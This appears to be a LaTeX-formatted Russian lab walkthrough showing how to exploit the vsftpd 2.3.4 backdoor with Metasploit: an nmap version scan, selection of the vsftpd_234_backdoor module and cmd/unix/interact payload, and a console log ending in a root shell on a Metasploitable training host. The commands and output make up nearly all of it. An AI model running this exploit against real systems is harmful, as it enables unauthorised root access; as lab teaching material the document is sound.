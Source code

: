 \documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию ftp сервера
\item Осуществляем поиск подходящего эксплойта
\item Выбираем подходящий payload, в данном случае он единственный
\item Устанавливаем параметры эксплойта (payload, rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf auxiliary(smb_enumshares) > nmap 192.168.0.155 -p 21 -sV
[*] exec: nmap 192.168.0.155 -p 21 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:05 EDT
Nmap scan report for 192.168.0.155
Host is up (0.00016s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:C0:D5:A0 (samsung Computer Systems)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       
   Description
   ----                                  ---------------  ----       
   -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       
   excellent  VSFTPD v2.3.4 Backdoor Command Execution


msf auxiliary(smb_enumshares) > use exploit/unix/ftp/
vsftpd_234_backdoor 
msf exploit(vsftpd_234_backdoor) > show payloads 

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, 
   Interact with Established Connection

msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact 
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.155
RHOST => 192.168.0.155
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.155:51913 -> 
192.168.0.155:6200) at 2015-06-03 07:21:17 -0400

hostname
metasploitable
\end{verbatim}
\end{document}
